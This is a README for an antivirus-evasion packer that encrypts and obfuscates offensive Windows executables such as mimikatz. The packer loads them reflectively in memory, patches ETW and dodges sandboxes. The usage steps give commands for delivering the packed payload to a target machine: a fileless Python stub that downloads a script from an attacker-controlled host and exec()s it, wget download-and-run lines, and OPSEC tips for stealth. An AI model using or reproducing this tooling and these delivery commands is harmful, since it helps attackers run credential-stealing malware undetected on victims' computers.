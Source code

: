 ### Invoke-Python-PePacker.py
--------------------------------------
'Invoke-Python-PePacker.py' allows to pack and encrypt offensive PE files (x64 exe) in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted Python script that embeds the PE file that you want to pack and implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Reflective PE injection in-memory using the 'PythonMemoryModule'
  - PE encryption (XOR) and compression (Zlib)
  - Script obfuscation (function and variable names are randomized + multiple encoding layer)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as mimikatz, pplblade, etc.

#### USAGE
- STEP 1. Generate an obfuscated and encrypted Python script that contains your PE file (e.g. mimikatz.exe, pplblade.exe).
          If you want to add arguments to pass to your PE file during its execution in-memory, you need to add them in the script 'Invoke-Python-PePacker.py'
          before running it.
```
Basic example for mimikatz
---------------------------
1. Edit the script 'Invoke-Python-PePacker.py'
   + Example 1 - You want to run mimikatz with the argument 'coffee' 
     > pythonmemorymodule.MemoryModule(data={pe_var}, command =' coffee')
   + Example 2 - You want to run mimikatz (interactively) with no argument
     > pythonmemorymodule.MemoryModule(data={pe_var})

2. Run the script 'Invoke-Python-PePacker.py' to generate an obfuscated Python script that embeds mimikatz
+ C:\path\python-3.10.4> python.exe .\Invoke-Python-PePacker.py ".\mimikatz.exe" ".\obfuscated_script.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated Python script (embeding you offensive PE) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated Python script.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the Python 'MemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated Python script (embeding you offensive PE) on the target
    Windows machine using Python. This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_script.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated Python script locally before execution.
```
1 - Download a Zip archive file on your target Windows computer that contains a signed portable Python 3 interpreter from 'www.python.org'
    as well as the 'PythonMemoryModule' from the Github project 'https://github.com/naksyn/PythonMemoryModule'.
    Example:
    PS C:\temp\python> wget -uri https://your-IP-or-website/python-3.10.4-with-MemoryModule.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store locally on disk the obfuscated Python script (embeding you offensive PE) before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri https://your-IP-or-website/obfuscated_script.py -OutFile C:\temp\python\obfuscated_script.py"
    C:\temp\python> python.exe .\obfuscated_script.py
```
  - Option C: Use PyInstaller to bundle the obfuscated Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.


#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating the obfuscated Python script (embeding you offensive PE).
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
